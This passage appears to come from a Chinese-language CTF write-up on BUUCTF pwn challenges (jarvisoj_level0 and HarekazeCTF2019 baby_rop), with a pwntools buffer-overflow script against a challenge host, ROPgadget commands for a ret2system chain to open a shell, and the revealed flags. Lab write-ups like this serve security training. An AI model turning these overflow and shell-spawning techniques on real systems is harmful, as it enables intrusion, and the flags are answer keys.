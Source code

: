 ```python
from pwn import *

io = remote('node4.buuoj.cn', 25719)
e = ELF('level0')
address = e.symbols['callsystem']
log.success('callsystem_address => {}'.format(hex(address).upper()))
payload = b'a'*(0x80 + 0x8) + p64(address)
# payload = b'a'*(0x80 + 0x8) + p64(0x400596)
io.sendline(payload)
io.interactive()
```

发送`payload`监听成功后`ls`查看文件目录再`cat flag`即可得到`flag{af006b52-6eb0-4df4-9706-dcbb4dc8cff2}`。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level0/5.png)

------

### [[HarekazeCTF2019]baby_rop](https://buuoj.cn/challenges#[HarekazeCTF2019]baby_rop)

先`file ./HarekazeCTF2019_babyrop1`查看文件类型再`checksec --file=./HarekazeCTF2019_babyrop1`检查文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/harekazectf2019_babyrop/1.png) 

用`IDA Pro 64bit`打开附件`HarekazeCTF2019_babyrop1`，按`F5`反汇编源码并查看主函数，可以看到有个`char`型数组`v4`，`v4`的可用栈大小为`0x10`，`scanf()`函数读取输入到`v4`变量时并没有限制输入，显然存在栈溢出漏洞。

![](https://paper.tanyaodan.com/BUUCTF/harekazectf2019_babyrop/2.png)

双击`v4`变量查看其在当前函数栈帧的详情，构造`payload`时可以用`0x10`个字节占满变量`v4`，再用`0x8`个字节覆盖到栈帧。

![](https://paper.tanyaodan.com/BUUCTF/harekazectf2019_babyrop/3.png)

在`64`位程序中，函数的前`6`个参数是通过寄存器传递的，分别是`rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`(当参数小于`7`时)，所以我们需要用`ROPgadget`找到`pop_rdi`的地址。

```bash
ROPgadget --binary ./HarekazeCTF2019_babyrop1 --only "pop|ret"
```

![](https://paper.tanyaodan.com/BUUCTF/harekazectf2019_babyrop/4.png)

在`Function window`中存在`system()`函数的地址，我们也可以通过`ELF`模块的`symbols['system']`来获取`system()`函数的地址。字符串`/bin/sh`的地址可以通过`ROPgadget`获取。

```bash
ROPgadget --binary ./HarekazeCTF2019_babyrop1 --string "/bin/sh"
```

![](https://paper.tanyaodan.com/BUUCTF/harekazectf2019_babyrop/5.png)

构造`payload`时向`pop_rdi`寄存器中传入字符串`/bin/sh`的地址，再调用`system`即可完成系统调用，编写`Python`代码打通靶机获取到目标主机的`shell`后输入`cat /home/babyrop/flag`即可得到`flag{5113e012-2d92-4257-bf3a-f688df2841bf}`。
